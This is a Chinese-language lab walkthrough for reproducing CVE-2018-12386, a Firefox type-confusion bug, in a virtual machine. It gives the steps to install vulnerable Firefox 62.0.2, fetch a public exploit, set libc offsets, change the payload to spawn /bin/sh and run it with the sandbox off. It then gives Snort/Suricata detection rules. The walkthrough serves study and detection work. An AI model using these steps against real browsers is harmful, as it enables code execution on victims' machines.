



# 0x0 前言
### CVE-2018-12386 Description  
A vulnerability in **register allocation** in JavaScript can lead to **type confusion**, allowing for an **arbitrary read and write**. This leads to ~~remote~~(?) code execution inside the **sandboxed content process** when triggered. This vulnerability affects Firefox ESR < 60.2.2 and Firefox < 62.0.3.

### Firefox < 62.0.3
Common-used browser.

> 1. 瀏覽器並非"網路服務"，攻擊也是直接在本機上執行，因此似乎也不算是"R"CE，頂多算ACE
> 2. 攻擊成功後取得的shell權限端看是以哪個權限執行firefox(一般預設是下載安裝firefox的那個使用者)
* ()內為測試時使用之環境
* <>為可變動或需視使用環境變動的欄位
* `斜體字`為指令

# 0x1 前置需求
* 虛擬機軟體 (VMware Workstation 15.5.7)
* Linux受攻擊機 (Ubuntu 20.04)

# 0x2 受攻擊機環境建置
### 安裝firefox 62.0.2
1. `wget https://ftp.mozilla.org/pub/firefox/releases/62.0.2/linux-x86_64/en-US/firefox-62.0.2.tar.bz2`，下載**firefox 62.0.2**

2. `bzip2 -d firefox-62.0.2.tar.bz2; tar xvf firefox-62.0.2.tar`，解壓縮

# 0x3 Exploit
### 下載exploit
1. 至github下載exploit https://github.com/0xLyte/cve-2018-12386

2. 依據以下指令之執行結果更動**exploit/offsets.js**

    `ldd /bin/ls | grep libc.so.6 | cut -d' ' -f3`  
    /lib/x86_64-linux-gnu/libc.so.6  =>  path  
      

    `nm -D path | grep " tolower$"`  
    0000000000037130 T tolower  =>  libc_tolower  
      

    `nm -D path | grep " system$"`  
    0000000000055410 W system  =>  libc_system  
      

    **更改exploit/offsets.js最後兩個offset，其餘如是使用firefox 62.0.2則不需更改；若非則可參考reference 1**  
    

3. 原exploit只是執行計算機，為求效果，我們將exploit/pwn.html的27行改為`exp.execute_command("/bin/sh");`以取得shell  

### exploit
4. `MOZ_DISABLE_CONTENT_SANDBOX=1 <path to firefox(~/firefox/firefox)> <path to exploit/pwn.html(~/cve-2018-12386-master/exploit/pwn.html)>`，在**disable sandbox debugging**的形況下執行exploit，可以看到firefox持續顯示載入中，而terminal上已拿到shell  

# 0x4 Snort/Suricata Rule
1. alert tcp $EXTERNAL_NET any -> $SMTP_SERVERS 25 (msg:"BROWSER-FIREFOX Mozilla Firefox javascript type confusion code execution attempt"; flow:to_server,established; file_data; content:"objs[i] = {x: 'asd', p1: {}, p2: {}, p3: {}, p4: x, p5: x, p6: {}}|3B|"; fast_pattern:only; metadata:policy balanced-ips drop, policy max-detect-ips drop, policy security-ips drop, service smtp; reference:cve,2018-12386; reference:url,www.mozilla.org/en-US/security/advisories/mfsa2018-24/#CVE-2018-12386; classtype:attempted-user; sid:48565; rev:1;)

2. alert tcp $EXTERNAL_NET $FILE_DATA_PORTS -> $HOME_NET any (msg:"BROWSER-FIREFOX Mozilla Firefox javascript type confusion code execution attempt"; flow:to_client,established; file_data; content:"objs[i] = {x: 'asd', p1: {}, p2: {}, p3: {}, p4: x, p5: x, p6: {}}|3B|"; fast_pattern:only; metadata:policy balanced-ips drop, policy max-detect-ips drop, policy security-ips drop, service ftp-data, service http, service imap, service pop3; reference:cve,2018-12386; reference:url,www.mozilla.org/en-US/security/advisories/mfsa2018-24/#CVE-2018-12386; classtype:attempted-user; sid:48564; rev:1;)

# 0x5 Reference
1. https://github.com/0xLyte/cve-2018-12386
2. https://bug1493900.bmoattachments.org/attachment.cgi?id=9011702
